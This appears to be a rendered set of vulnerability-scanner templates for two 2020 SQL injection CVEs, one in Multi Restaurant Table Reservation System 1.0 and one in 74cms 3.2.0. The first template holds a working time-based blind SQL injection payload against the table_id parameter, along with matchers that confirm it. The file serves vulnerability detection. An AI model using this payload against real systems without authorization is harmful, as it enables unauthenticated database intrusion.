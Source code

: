 # Multi Restaurant Table Reservation System 1.0 - SQL Injection

## Description

- The file view-chair-list.php in Multi Restaurant Table Reservation System 1.0 does not perform input validation on the table_id parameter which allows unauthenticated SQL Injection. An attacker can send malicious input in the GET request to /dashboard/view-chair-list.php?table_id= to trigger the vulnerability.

- severity - critical
- tags - cve2020,tablereservation,sqli,unauth,edb,cve

## Requests

- Method - GET

### URL

- {{BaseURL}}/dashboard/view-chair-list.php?table_id='+AND+(SELECT+1+FROM+(SELECT(SLEEP(6)))a)--+-

### Matchers

**Type - dsl**

- dsl
  1. duration>=6

**Type - word**

- part - body
- words
  1. Restaurent Tables
  2. Chair List
- condition - and

**Type - status**

- status
  1. 200

---

# 74cms - ajax_street.php 'x' SQL Injection

## Description

- SQL Injection in 74cms 3.2.0 via the x parameter to plus/ajax_street.php.

- severity - critical
- tags - cve,cve2020,74cms,sqli
